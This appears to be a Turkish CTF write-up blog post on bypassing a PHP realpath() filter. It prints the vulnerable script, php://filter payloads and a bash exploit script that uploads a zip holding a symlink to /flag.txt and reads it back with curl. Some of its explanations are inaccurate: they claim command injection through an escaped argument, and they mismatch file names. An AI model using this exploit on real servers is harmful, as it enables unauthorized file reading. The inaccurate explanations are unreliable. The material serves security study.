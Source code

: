 ```yaml
---
title: "PHP RealPath Zafiyeti ve SymLink Çözümü"
layout: post
---
```



PHP RealPath() Zafiyeti ve SymLink Çözümü



## PHP Vuln Script

```php

<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
?>

```

## Açıklama

İlk olarak, `session_start()` işlevi çağrılıyor. Bu, sunucu üzerinde bir oturum oluşturmayı sağlar. Eğer oturum zaten başlatılmışsa veya başlatılamıyorsa `(or die('session_start'))`, betik çalışmayı durdurur.
Ardından, `$_SESSION` süper global değişkeninde `sandbox` adında bir anahtar kontrol ediliyor. Eğer 'sandbox' anahtarı tanımlı değilse, `random_bytes(16)` işleviyle rastgele bir 16 baytlık dizi oluşturulup `bin2hex` işleviyle hexadecimal bir dizeye dönüştürülerek `$_SESSION['sandbox']` değişkenine atanır.
`sandbox` dizini, `data/` önekiyle birleştirilerek `$sandbox` değişkenine atanır.
Bir kilitleme dosyası `($sandbox . '.lock')` oluşturulup açılır `(fopen)`. 
Eğer dosya açılamazsa `(or die('fopen'))`, betik çalışmayı durdurur.
flock işlevi, kilitleme dosyasını kilitlemeyi dener. Eğer başka bir işlem tarafından dosya zaten kilitlenmişse veya kilitleme işlemi başarısız olursa `(or die('flock'))`, betik çalışmayı durdurur.
`mkdir` işleviyle `$sandbox` dizini oluşturulur ve izinleri `0700` olarak ayarlanır. Eğer dizin oluşturulamazsa, betik çalışmayı durdurur.
`chdir` işleviyle çalışma dizini `$sandbox` dizini olarak değiştirilir. Eğer dizini değiştiremezse, betik çalışmayı durdurur.
Eğer `$_FILES` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın yüklendiği kontrol edilir.
system işlevi kullanılarak bir komut yolu belirtilir `(/usr/bin/unzip)` ve yüklenen dosyanın geçici konumunu temsil eden `$_FILES['file']['tmp_name']` değeri işleme dahil edilir.
Bu komut, belirtilen dosyayı çıkarır `(unzip)` ve `$sandbox` dizinine yerleştirir. 
`ulimit -v 8192` komutu, işlemin sanal bellek sınırlamasını `8192` kilobayt olarak ayarlar. 
`/usr/bin/timeout -s KILL 2` komutu, unzip işleminin 2 saniye içinde tamamlanmaması durumunda işlemi sonlandırır.

`escapeshellarg($_FILES['file']['tmp_name']))` --> `escapeshellarg` işlevi, bir dizeyi güvenli bir şekilde kabuk argümanı olarak kullanılabilir hale getirmek için kullanılan bir işlevdir.

Eğer `$_GET` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın okunduğu kontrol edilir.

`$_GET['file']` değeri işlenir ve realpath işlevi kullanılarak dosyanın gerçek yolunu elde eder. Ardından `preg_match` işlevi kullanılarak gerçek dosya yolunun boş veya `flag` kelimesini içerip içermediği kontrol edilir.

`realpath($_GET['file'])` işlemi, belirtilen dosyanın gerçek yolunu döndürür. Eğer dosya yoksa veya gerçek yolu bulunamazsa `false` değeri döner.
`preg_match('/(^$|flag)/i', realpath($_GET['file'])`, gerçek dosya yolunu verilen düzenli ifadeye göre kontrol eder. İfade, dosya yolunun boş olup olmadığını veya `flag` kelimesini içerip içermediğini kontrol eder. `i` bayrağı büyük/küçük harf duyarlılığını kapatır.
Eğer gerçek dosya yolü belirlenen kriterleri sağlıyorsa, `readfile` işlevi kullanılarak dosyanın içeriği tarayıcıya gönderilir. Bu, dosyanın içeriğinin tarayıcıda görüntülenmesini sağlar.

Son olarak, `fclose` işlevi kullanılarak kilitleme dosyası kapatılır.

>File Path Check: `$_GET['file']` değeri doğrudan gerçek dosya yolu olarak kullanılıyor. Ancak, realpath işlevi bile olsa bu kullanım güvenli değildir. Kötü niyetli kullanıcılar, dosya yolu manipülasyonu yaparak izin verilmeyen dosyaları okuyabilir veya sistem dosyalarına erişebilir. Güvenli bir dosya yolu kontrolü yapılmalı ve yalnızca belirli bir klasördeki dosyalara erişime izin verilmelidir.

>Command Injection: Dosya yükleme işlemi sırasında `system` işlevi kullanılırken, yüklenen dosyanın güvenli bir şekilde işlenmediği görülüyor. Kötü niyetli kullanıcılar, `$_FILES['file']['tmp_name']` değeri üzerinden komut enjeksiyon saldırıları gerçekleştirebilir ve istenmeyen komutları sunucuda çalıştırabilir. Dosya yükleme işlemi güvenli bir şekilde yapılmalı ve yüklenen dosyaların içeriği doğrulanmalıdır.

>Information Disclosure: Bu istek, readfile işlevini kullanarak bir dosyanın base64 kodlanmış içeriğini tarayıcıya göndermek yerine, "php://filter/convert.base64-encode/resource=exploit" olarak adlandırılan özel bir dosyanın içeriğini kodlayabilir. Eğer bu dosya bir PHP betiği veya hassas bilgiler içeren bir dosya ise, bu sayede saldırgan, hedef sistemin kodunu sızdırabilir veya hassas verilere erişebilir.

>Local File Inclusion: `php://filter/convert.base64-encode/resource=exploit` ifadesi, dosya yolu keşfine yol açabilir. Saldırgan, "exploit" yerine diğer dosya veya dizin isimlerini deneyerek sistemdeki dosyaların listesini elde etmeye çalışabilir. Bu şekilde, saldırgan sistemin dosya yapısını inceleyebilir ve hassas verilerin yerini tespit edebilir.

## Payload

```php
php://filter/convert.base64-encode/resource=flag.txt
php://filter/convert.base64-encode/resource=./flag.txt
```
Komutları ise bize flag değerini döndürecektir.Fakat önce yukarıda yapıldığı gibi dosya yükleme işlemi yapmak gerekir.

### Bash Script 

```bash

#!/bin/bash

TARGET='http://example.com'
PAYLOAD='php://filter/convert.base64-encode/resource=exploit'

mkdir -p ExpDir
pushd ExpDir

mkdir -p "$PAYLOAD"
ln -s /flag.txt exploit
zip -y -r exploit.zip *

curl -H 'Cookie: PHPSESSID=OturumBilgisi' "$TARGET" -F "file=@exploit.zip"
curl -s -H 'Cookie: PHPSESSID=OturumBilgisi' "${TARGET}/?file=${PAYLOAD}" | base64 -d

echo
popd

```
### Command

```py
mkdir file:
cd file:
touch flagx.txt
ln -s flagx.txt flag.txt
cd ..
zip -ry flag.zip file
```

mkdir file: "file" adında bir dizin oluşturur.
cd file: Oluşturulan "file" dizinine geçiş yapar.
touch flagx.txt: "flagx.txt" adında boş bir dosya oluşturur.
ln -s flagx.txt flag.txt: "flag.txt" adında sembolik bir bağlantı oluşturur ve bu bağlantıyı "flagx.txt" dosyasına yönlendirir.
cd ..: Önceki dizine geri döner.
zip -ry flag.zip file: "file" dizinini ve içeriğini "recursive" olarak sıkıştırır ve "file_flag.zip" adlı bir zip arşivi oluşturur.
Bu işlemler sonucunda, "file" dizini içinde "meow.txt" adlı bir dosya ve bu dosyaya bağlantı olarak "flag.txt" adlı sembolik bir bağlantı oluşturulur. Ardından, "file" dizini ve içeriği "file_flag.zip" adlı bir zip arşivine sıkıştırılır.


"recursive" terimi, bir işlemi veya işlemi bir dizin ve içeriğindeki tüm alt dizinler üzerinde tekrarlayarak gerçekleştirmeyi ifade eder.

`zip -r` veya `zip -ry` komutları, zip arşivini oluştururken rekürsif olarak çalışır. Bu, belirtilen dizin ve alt dizinlerindeki tüm dosyaları ve alt dizinleri de dahil ederek bir arşiv oluşturur. Dosyaların ve alt dizinlerin içeriği, arşivin içinde hiyerarşik bir yapıda saklanır.

`zip -r` komutu, dizin ve dosyaları sıkıştırmak için kullanılırken, `zip -ry` komutu, sıkıştırma işlemi sırasında sembolik bağlantıları da korur. Bu, sembolik bağlantılara sahip dosyaların da arşivin içine dahil edileceği anlamına gelir.

Örneğin, zip -ry flag.zip file komutunu kullanarak "file" dizinini rekürsif olarak sıkıştırdığınızda, "file" dizini, içindeki dosyalar ve alt dizinler ile birlikte "flag.zip" adlı bir arşive dahil edilir. Bu şekilde, tüm dizin hiyerarşisi ve içerik korunarak sıkıştırma işlemi gerçekleştirilir.

### Symbolic Link (Sembolik Bağlantı)

Bir dosyanın veya dizinin başka bir dosyayı veya dizini işaret etmesini sağlayan bir dosya türüdür. 
Bir sembolik bağlantı, dosya sistemi üzerinde bir yol bağlantısı oluşturur ve bu sayede bir dosyanın birden fazla konumda bulunmasını sağlar.


## Makale

Daha detaylı olarak belirttiğim makaleme ise burada ulaşabilirsiniz [PHP LFI-RFI-RCE](https://cagrieser.com/articles/PHP-LFI-RFI-RCE.pdf)

Aşağıda ki Python Scripti ile gerekli payloadları ayarlarıp dönen yanıtları dışarı aktarıp bakabilirsiniz.
[https://github.com/cagrieser/ReqWeb](https://github.com/cagrieser/ReqWeb)

Bunun dışında Burp Suite ilede Intruder yapabilirsiniz.

![Web](/img/qwb.gif)

